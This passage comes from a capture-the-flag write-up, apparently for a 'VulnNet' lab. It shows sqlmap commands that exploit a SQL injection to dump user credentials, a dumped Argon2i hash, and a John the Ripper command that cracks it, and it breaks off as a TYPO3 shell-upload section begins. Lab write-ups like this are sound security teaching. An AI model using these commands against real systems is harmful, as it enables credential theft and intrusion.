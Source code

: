    → Retrieved `chris_w` with Argon2 hash
   
**Dump blog user credentials**:

   ```bash
   sqlmap -u http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1 -D blog -T users -C username,password --dump
   ```

   → Saved full user/password list to `users.csv`

---

## 4. Cracking the `chris_w` Argon2i Hash

### Dumped Hash

From SQLi on the `vn_admin.be_users` table:

```text
chris_w:$argon2i$v=19$m=65536,t=16,p=2$UnlVSEgyMUFnYnJXNXlXdg$j6z3IshmjsN+CwhciRECV2NArQwipqQMIBtYufyM4Rg
````

### Extracting potential passwords

We leveraged SQLi on the `blog.users` table to extract all plaintext user passwords:

```bash
sqlmap -u "http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1" \
  -p blog --dbms=mysql -D blog -T users -C password --dump \
  --batch > blog_users_passwords.txt
cut -d',' -f2 blog_users_passwords.txt | tail -n +2 > passlist.txt
```

### Cracking using John the Ripper

John (with GPU support) supports Argon2i via OpenCL modules:

```bash
john --format=argon2-opencl --wordlist=passlist.txt chris_w.hash
```

This recovers the plaintext password for `chris_w`.

> **Why John?**
> John recently gained Argon2 support for GPU/OpenCL and can handle high-memory hashes like Argon2i.

---

## 5. CMS Shell Upload via TYPO3

### Discovery

* Located TYPO3 backend at `http://admin1.vulnnet.thm/typo3/`
* Enumerated via `gobuster` and confirmed CMS presence
